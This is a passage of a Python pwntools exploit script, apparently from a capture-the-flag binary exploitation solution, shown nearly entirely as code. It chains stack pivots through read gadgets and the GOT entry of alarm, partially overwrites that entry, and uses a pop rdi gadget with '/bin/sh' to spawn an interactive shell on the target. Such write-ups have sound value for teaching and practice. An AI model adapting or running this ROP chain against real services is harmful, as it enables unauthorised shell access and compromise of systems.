```py
            exe.got.alarm + 0x20 + 0x20,    # saved rbp 1
            read_gadget                     # saved rip 1
        )

        # input("1st")
        sleep(0.5)
        s(pl)

        # 0x404040
        pl = flat(
            rw_section + 0x20,             # saved rbp 3
            read_gadget,                   # saved rip 3
            b'B' * 0x10,
            exe.got.alarm + 0x20,          # saved rbp 2
            read_gadget                    # saved rip 2
        )

        # input("2nd")
        sleep(0.5)
        s(pl)

        # input("3rd")
        sleep(0.5)
        s(p16(0xd1c0))

        pl = flat(
            b'/bin/sh\0',                  # saved rbp 5
            pop_rdi,                       # saved rip 5
            rw_section,
            exe.plt.alarm,
            rw_section,                    # saved rbp 4
            read_gadget,                   # saved rip 4
        )

        # input("4th")
        sleep(0.5)
        s(pl)

        # input("5th")
        sleep(0.5)
        s(b'\0')

        try:
            sl(b'echo DONE!')
            ru(b'DONE!')
            return True
        except:
            p.close()
            return False

    if __name__ == '__main__':
        if exploit():
            interactive()
            break
```
